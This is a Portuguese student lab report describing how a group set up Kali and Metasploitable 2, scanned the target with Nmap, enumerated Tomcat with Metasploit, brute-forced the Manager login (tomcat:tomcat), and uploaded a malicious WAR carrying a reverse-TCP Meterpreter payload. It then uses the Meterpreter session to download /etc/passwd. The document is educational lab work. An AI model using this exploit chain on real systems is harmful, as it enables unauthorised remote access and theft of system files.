# Memebros

Gabriel Venancio Nunes 

Daniel de Abreu Macedo 

Guilherme Rocha Bezzera 

Bruno Oliveira Carvalho 

# Guia detalhado da demonstração (contexto e preparação)

Este documento registra, em formato de relatório, todo o passo a passo que segui para montar o ambiente de laboratório, fazer a varredura com Nmap e explorar um serviço web vulnerável utilizando o Metasploit Framework. A ideia é que ele sirva tanto como registro técnico quanto como material de apoio para a apresentação, preenchendo as lacunas que não cabem no roteiro resumido do `README.md`.

## Ambiente de laboratório

Para esta demonstração, montei um ambiente simples com duas máquinas virtuais:

- **Máquina alvo:** Metasploitable 2;
- **Máquina atacante:** Kali Linux.

As duas VMs foram configuradas em **modo bridge**. Isso significa que cada uma recebe um endereço IP na mesma rede do host físico, se comportando como se fossem máquinas separadas conectadas ao mesmo switch. Essa configuração facilita a comunicação direta entre Kali e Metasploitable e deixa o cenário mais próximo de uma rede real.

Na prática, o IP do Metasploitable que utilizei foi `192.168.0.60` e o IP do Kali, obtido via `ifconfig`, foi `172.24.101.240`.

## Metasploit e Metasploitable (visão geral)

O **Metasploit Framework** é uma ferramenta de código aberto bastante usada em testes de penetração. Na prática, eu o utilizei como "canivete suíço" para:

- mapear serviços e aplicações vulneráveis (módulos **auxiliary**);
- explorar vulnerabilidades específicas (módulos **exploit**);
- ganhar acesso interativo ao alvo (payloads como o **Meterpreter**).

Os principais tipos de módulos que aparecem neste relatório são:

- **Exploits:** código que se aproveita de uma vulnerabilidade para executar algo no alvo;
- **Payloads:** o que é executado depois que o exploit tem sucesso (por exemplo, um shell reverso ou o próprio Meterpreter);
- **Auxiliary:** scanners, brute force, enumeração de serviços web etc.

O alvo escolhido para os testes foi o **Metasploitable 2**, que é uma máquina virtual intencionalmente vulnerável. Ela vem com vários serviços desatualizados (FTP, SSH, Samba, bancos de dados) e também com aplicações web inseguras (Mutillidae, DVWA, phpMyAdmin, TWiki, WebDAV, entre outras). Isso permite demonstrar de forma controlada como um atacante poderia se aproveitar dessas falhas.

---

## Preparando a VM Metasploitable

- Download do disco virtual (VMDK): `https://sourceforge.net/projects/metasploitable/`
- Ao criar a VM, os prints na pasta do projeto indicam os passos:
	- Configuração das informações básicas da VM (nome, sistema operacional, versão):

		

	- Configuração de recursos (CPU, memória, disco):

		

	- Uso do arquivo VMDK baixado como disco virtual:

		

	- Configurações de rede — setar modo *bridge* e habilitar *promiscuous mode*:

		

> Observação: o modo *bridge* faz com que a VM receba um IP na mesma rede do host; *promiscuous mode* é útil em laboratórios onde você precisa capturar tráfego, mas só habilite em ambientes de teste.

## Edição do GRUB e flags de boot

Para alterar flags do kernel na tela do GRUB (conforme suas imagens):

1. Na inicialização da VM, quando o GRUB aparecer, pressione `e` para editar.
2. Selecione a linha do kernel (por exemplo, `/vmlinuz`) e pressione `e` novamente para editar a linha de boot.
3. Adicione as flags `noapic nolapic` ao final da linha de kernel.
4. Pressione `Enter` para confirmar e então `b` para dar boot com as flags modificadas.

Imagens relacionadas:










## Configuração de rede e obtenção do IP

Depois de logar (usuário padrão `msfadmin/msfadmin`), verifique o endereço IP para usar nas varreduras:

```bash
ifconfig
```

Exemplo: no seu fluxo o IP retornado foi `192.168.0.60` (usado no comando `nmap` abaixo). A imagem `explore_vm_1.png` mostra o resultado do `ifconfig`.



## Varredura Nmap realizada

Com o IP obtido, foi executado o comando:

```bash
nmap -sV -sC -O 192.168.0.60
```

Abaixo segue a saída completa do Nmap (colada do arquivo `nmap_output.txt`):

```text
Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-25 19:14 -03
Nmap scan report for 192.168.0.60
Host is up (0.0026s latency).
Not shown: 977 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 192.168.0.56
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
23/tcp   open  telnet      Linux telnetd
25/tcp   open  smtp        Postfix smtpd
| sslv2:
|   SSLv2 supported
|   ciphers:
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|_    SSL2_RC2_128_CBC_WITH_MD5
|_ssl-date: 2025-11-25T22:14:52+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=ubuntu804-base.localdomain/organizationName=OCOSA/stateOrProvinceName=There is no such thing outside US/countryName=XX
| Not valid before: 2010-03-17T14:07:45
|_Not valid after:  2010-04-16T14:07:45
|_smtp-commands: metasploitable.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN
53/tcp   open  domain      ISC BIND 9.4.2
| dns-nsid:
|_  bind.version: 9.4.2
80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
|_http-title: Metasploitable2 - Linux
|_http-server-header: Apache/2.2.8 (Ubuntu) DAV/2
111/tcp  open  rpcbind     2 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/udp   nfs
|   100005  1,2,3      40138/udp   mountd
|   100005  1,2,3      59838/tcp   mountd
|   100021  1,3,4      47679/udp   nlockmgr
|   100021  1,3,4      59179/tcp   nlockmgr
|   100024  1          46194/udp   status
|_  100024  1          54385/tcp   status
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
512/tcp  open  exec        netkit-rsh rexecd
513/tcp  open  login       OpenBSD or Solaris rlogind
514/tcp  open  tcpwrapped
1099/tcp open  java-rmi    GNU Classpath grmiregistry
1524/tcp open  bindshell   Metasploitable root shell
2049/tcp open  nfs         2-4 (RPC #100003)
2121/tcp open  ftp         ProFTPD 1.3.1
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
| mysql-info:
|   Protocol: 10
|   Version: 5.0.51a-3ubuntu5
|   Thread ID: 8
|   Capabilities flags: 43564
|   Some Capabilities: ConnectWithDatabase, SwitchToSSLAfterHandshake, Support41Auth, SupportsTransactions, LongColumnFlag, Speaks41ProtocolNew, SupportsCompression
|   Status: Autocommit
|_  Salt: }Wyz{xk0KjR>|xes17bi
5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
|_ssl-date: 2025-11-25T22:14:35+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=ubuntu804-base.localdomain/organizationName=OCOSA/stateOrProvinceName=There is no such thing outside US/countryName=XX
| Not valid before: 2010-03-17T14:07:45
|_Not valid after:  2010-04-16T14:07:45
5900/tcp open  vnc         VNC (protocol 3.3)
| vnc-info:
|   Protocol version: 3.3
|   Security types:
|_    VNC Authentication (2)
6000/tcp open  X11         (access denied)
6667/tcp open  irc         UnrealIRCd
| irc-info:
|   users: 1
|   servers: 1
|   lusers: 1
|   lservers: 0
|   server: irc.Metasploitable.LAN
|   version: Unreal3.2.8.1. irc.Metasploitable.LAN
|   uptime: 0 days, 0:12:05
|   source ident: nmap
|   source host: A455EFB9.F0D9233E.FFFA6D49.IP
|_  error: Closing Link: gijdjccxe[192.168.0.56] (Quit: gijdjccxe)
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/5.5
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.95%E=4%D=11/25%OT=21%CT=1%CU=43263%PV=Y%DS=2%DC=I%G=Y%TM=69262A
OS:6F%P=x86_64-pc-linux-gnu)SEQ(SP=C5%GCD=1%ISR=D2%TI=Z%CI=Z%II=I%TS=7)SEQ(
OS:SP=C6%GCD=4%ISR=CA%TI=Z%CI=Z%II=I%TS=7)SEQ(SP=C8%GCD=1%ISR=D6%TI=Z%CI=Z%
OS:II=I%TS=7)SEQ(SP=CC%GCD=2%ISR=D1%TI=Z%CI=Z%II=I%TS=7)SEQ(SP=CE%GCD=1%ISR
OS:=D1%TI=Z%CI=Z%II=I%TS=7)OPS(O1=M5B4ST11NW7%O2=M5B4ST11NW7%O3=M5B4NNT11NW
/* (truncated for brevity) */

Network Distance: 2 hops
Service Info: Hosts:  metasploitable.localdomain, irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery:
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: metasploitable
|   NetBIOS computer name:
|   Domain name: localdomain
|   FQDN: metasploitable.localdomain
_  System time: 2025-11-25T17:14:25-05:00
|_clock-skew: mean: 1h14m58s, deviation: 2h30m00s, median: -1s
|_nbstat: NetBIOS name: METASPLOITABLE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
|_smb2-time: Protocol negotiation failed (SMB2)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 69.76 seconds
```

## Interpretação do scan e foco no servidor web

O resultado do Nmap mostra uma superfície de ataque bastante ampla: além dos serviços tradicionais (FTP, SSH, Samba, bancos de dados, VNC, IRC etc.), há um servidor web Apache 2.2.8 na porta 80 e um Apache Tomcat 5.5 na porta 8180, com AJP exposto na porta 8009.

Como o objetivo desta atividade era explorar um serviço **web**, eu foquei na combinação Apache/Tomcat. A ideia foi reproduzir o caminho que um atacante seguiria: primeiro descobrir quais aplicações web estão publicadas, depois verificar se existe um painel administrativo exposto e, por fim, tentar explorar esse painel com a ajuda do Metasploit.

## Enumeração web com Metasploit (dir_scanner)

Já com o IP do alvo em mãos, usei o próprio Metasploit para fazer enumeração de diretórios no Tomcat, usando o módulo `auxiliary/scanner/http/dir_scanner`. O objetivo era descobrir caminhos interessantes, como `/admin`, `/manager`, `/webdav`, entre outros.

Dentro do `msfconsole`, a sequência de comandos foi:

```text
use auxiliary/scanner/http/dir_scanner
set RHOSTS 192.168.0.60
set RPORT 8180
run
```

O resultado mostrou, entre outros, os seguintes caminhos:

- `/admin/`
- `/jsp-examples/`
- `/tomcat-docs/`
- `/webdav/`

Essa saída está registrada na captura `tomcat_discovery.png`:



Foi a partir desse momento que ficou claro que havia um painel administrativo ativo no Tomcat e também um endpoint `webdav/` disponível. Com essa informação, decidi seguir dois caminhos possíveis de exploração:

- usar o painel administrativo (Tomcat Manager) para fazer upload de um `.war` malicioso via Metasploit;
- avaliar a possibilidade de upload de arquivos via WebDAV (também com foco em file upload).

Na sequência, optei por explorar o Tomcat Manager, já que é um cenário clássico em laboratórios com Metasploitable.

## Exploração via Tomcat Manager (método Metasploit)

Depois de confirmar que o Tomcat Manager estava acessível, o próximo passo foi descobrir credenciais válidas. Para isso, usei o módulo `auxiliary/scanner/http/tomcat_mgr_login` e, em seguida, o exploit de upload:

- `auxiliary/scanner/http/tomcat_mgr_login` → descobrir usuário/senha do Manager;
- `exploit/multi/http/tomcat_mgr_upload` → enviar o `.war` com payload `java/meterpreter/reverse_tcp`.

O uso desses módulos é detalhado na seção de demonstração prática logo abaixo, com os prints do `msfconsole` e os comandos exatamente como foram executados.

## Demonstração prática — Tomcat Manager Upload (passo a passo)

Abaixo segue a sequência usada na demonstração, com as imagens correspondentes (capturas do Kali/msfconsole) e os comandos exibidos.

- Preparação: verificar IP no Kali (captura `msfconsole_1.png`)

	

	Comando exibido na imagem:

	```bash
	ifconfig
	# IP do atacante: 172.24.101.240
	```

- Abrir o `msfconsole` (captura `msfconsole_2.png`)

	

- Descobrir/confirmar credenciais do Tomcat usando `tomcat_mgr_login` (captura `msfconsole_3.png`)

	Comandos utilizados no `msfconsole`:

	```text
	use auxiliary/scanner/http/tomcat_mgr_login
	set RHOSTS 192.168.0.60
	set RPORT 8180
	run
	```

	

- Login bem-sucedido (`tomcat:tomcat`) — saída mostrada em `msfconsole_4.png`:

	

- Executando o exploit `tomcat_mgr_upload` e observando o Meterpreter (captura `msfconsole_5.png`)

	Comandos usados:

	```text
	use exploit/multi/http/tomcat_mgr_upload
	set RHOSTS 192.168.0.60
	set RPORT 8180
	set HTTPUSERNAME tomcat
	set HTTPPASSWORD tomcat
	set PAYLOAD java/meterpreter/reverse_tcp
	set LHOST 172.24.101.240
	set LPORT 4444
	run
	```

	

- Prova de controle com Meterpreter — comandos e captura (captura `msfconsole_7.png`)

	Exemplos de comandos Meterpreter executados após obter sessão:

	```text
	meterpreter > sysinfo
	meterpreter > getuid
	meterpreter > download /etc/passwd
	```

	

- Abrindo o `/etc/passwd` no atacante (captura `msfconsole_8.png`)

	Depois do `download /etc/passwd` você pode abrir o arquivo localmente para mostrar o conteúdo:


	


